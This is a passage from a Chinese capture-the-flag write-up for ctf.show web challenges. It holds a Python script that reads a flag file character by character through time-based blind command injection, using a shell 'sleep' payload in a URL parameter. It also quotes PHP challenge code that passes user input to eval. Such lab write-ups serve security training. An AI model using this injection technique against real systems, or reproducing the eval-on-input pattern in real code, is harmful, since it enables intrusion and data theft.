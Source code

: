 ```
else{
    highlight_file(__FILE__);
}
?> 
```

只能盲打咯

脚本

```
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
        #print(payload)
        url="http://47f5a8e0-42e2-4260-9f27-ec8d922b6561.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break

```



### web140

```
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}

```
